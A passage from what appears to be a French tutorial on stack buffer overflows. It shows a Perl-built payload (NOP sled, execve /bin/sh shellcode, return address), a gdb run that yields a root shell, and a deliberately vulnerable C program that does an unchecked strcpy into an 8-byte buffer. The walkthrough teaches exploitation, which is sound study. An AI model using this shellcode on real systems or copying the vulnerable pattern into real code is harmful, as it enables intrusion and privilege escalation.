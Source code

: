 perl -e &#8216;print &#8220;\x90&#8243;x31 . &#8220;\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh&#8221; . &#8220;\x10\xfc\xff\xbf&#8221;&#8216;

En le lançant dans gdb, on obtient alors le résultat suivant :

<pre class="lang:shell">(gdb) run `perl -e 'print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"'`
Starting program: /tmp/hackndo/binary `perl -e 'print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"'`
��������������������������������^�1�F�F
                                       �
                                        ���V
                                             ̀1ۉ�@̀�����/bin/sh���
process 20353 is executing new program: /bin/dash
$whoami
root
$</pre>

<p style="text-align: center;">
  <strong>I AM (G)ROOT !</strong>
</p>

<p style="text-align: left;">
  Vous avez suivi jusque là ? Bien joué !
</p>

* * *

<h2 style="text-align: left;">
  Cas 2
</h2>

<pre class="lang:c">#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *arg)
{
    char buffer[8];
    strcpy(buffer,arg);
    printf("%s\n", buffer);
}

int main(int argc, char *argv[])
{
    if(argc != 2) printf("binary \n");
    else func(argv[1]);
    return 0;
}</pre>

Ce programme est presque similaire au programme précédant, cependant cette fois-ci la taille allouée au buffer n'est que de 8 octets. A cause de cela, l'espace n'est plus suffisant pour pouvoir y injecter notre shellcode.
